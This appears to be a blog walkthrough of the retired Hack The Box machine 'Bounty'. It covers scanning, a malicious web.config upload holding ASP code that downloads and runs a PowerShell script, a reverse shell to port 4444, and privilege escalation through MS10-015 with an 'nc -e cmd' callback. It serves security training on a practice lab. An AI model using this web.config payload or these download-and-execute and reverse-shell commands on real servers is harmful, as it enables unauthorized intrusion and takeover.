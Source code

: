 ```yaml
---
layout: post
title: "HTB-Bounty"
date: 2020-02-16 14:55:00 +0000
categories: HTB-Walkthrough
---
```


![bounty](/assets/img/bounty.png)

This is a great box from the HTB 'retired' list.

Diving straight in with nmap then...
`nmap -sV -Pn -v 10.10.10.93 |tee -a boun.txt`

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Not a great deal of choice...

Lets have a closer look.

```

root@kali:~/HTB/retired/bounty# nmap --script=vuln -p80 10.10.10.93
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-26 07:45 EST
Nmap scan report for bounty.htb (10.10.10.93)
Host is up (0.092s latency).

PORT   STATE SERVICE
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2015-1635:
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2015-1635
|       A remote code execution vulnerability exists in the HTTP protocol stack (HTTP.sys) that is
|       caused when HTTP.sys improperly parses specially crafted HTTP requests. An attacker who
|       successfully exploited this vulnerability could execute arbitrary code in the context of the System accoun>
|
|     Disclosure date: 2015-04-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635
|_      https://technet.microsoft.com/en-us/library/security/ms15-034.aspx

Nmap done: 1 IP address (1 host up) scanned in 273.70 seconds

```

Forced-browsing with gobuster...

`gobuster -u http://10.10.10.93 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x .aspx,.asp,.html`

```

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.93/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : aspx,asp,html
[+] Timeout      : 10s
=====================================================
2019/11/13 09:38:51 Starting gobuster
=====================================================
Progress: 15215 / 882244 (1.72%)/transfer.aspx (Status: 200)
/UploadedFiles (Status: 301)
/uploadedFiles (Status: 301)
/uploadedfiles (Status: 301)
=====================================================
2019/11/13 10:13:53 Finished
=====================================================

```

/transfer.aspx is worth looking at closer....

we find that we can only upload web.config files...

we have to create an xml file and call it web.config

```xml

<?xml version="1.0" encoding="UTF-8"?>
<configuration>
       <system.webServer>
              <handlers accessPolicy="Read, Script, Write">
                     <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
              </handlers>
              <security>
                     <requestFiltering>
                            <fileExtensions>
                                   <remove fileExtension=".config" />
                            </fileExtensions>
                            <hiddenSegments>
                                   <remove segment="web.config" />
                            </hiddenSegments>
                     </requestFiltering>
              </security>
       </system.webServer>
</configuration>
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(New-Object Net.WebClient).DownloadString('http://10.10.14.19/shell.ps1');")
o = cmd.StdOut.Readall()
Responsse.write(o)
%>

```

If you haven't already, its a good idea to get to know a little xml; particularly in the context of exploiting xmlrpc. It's also important to familiarize yourself with useful powershell commands.
The IEX DownloadString one above is very useful, as is the IWR (Invoke-WebRequest) one. You will find them invaluable when working with Windows targets.


Anyway...the exploit above requires us to host the shell.ps1 file so
get a webserver running.
Incidentally, the shell.ps1 file can be found in /usr/share/webshells...modify it to call us on 4444.
we can do this by appending the following to the file...
`Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.19 -Port 4444`

so...the webserver to serve shell.ps1:

`python3 -m http.server 80`

Also get an nc shell running to catch the resulting reverse-shell connection...
`nc -nlvp 4444`

we get PowerShell command-line as user merlin....and access to the user flag.

```

PS C:\users\merlin\desktop> more user.txt
#  e29xxxxxxxxxxxxxxxxxxxf

```

The laziest way to continue would be to use windows-exploit-suggester.py

get nc.exe onto target..
`IWR -uri http://10.10.14.19/nc.exe -outfile c:\boo\nc.exe`

...then get cli shell...do
`systeminfo`

copy systeminfo to kali file sysinfo.txt

```

root@kali:~/HTB/retired/bounty# python wes.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-01-26-mssb.xls
[*] done
root@kali:~/HTB/retired/bounty# python wes.py --database 2020-01-26-mssb.xls --systeminfo sysinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*]
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5>
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5>
[*]
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Importa>
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Im>
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done

```

select ms10-015 to try escalation...not listed here...but does work...I've used it recently and I've got it readily to hand.

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.19/priv.exe','C:\boo\priv.exe')"
```

`c:\boo\priv.exe "c:\boo\nc.exe 10.10.14.19 999 -e cmd"`

```

C:\Users\Administrator\Desktop>type root.txt
type root.txt
c8xxxxxxxxxxxxxxxxxxxxea

```

It worked !!! If it had failed, I could have gone down the suggested list trying each, If the machine was patched against those vulnerabilities it would have required closer manual or scripted inspection. 

##################

:)



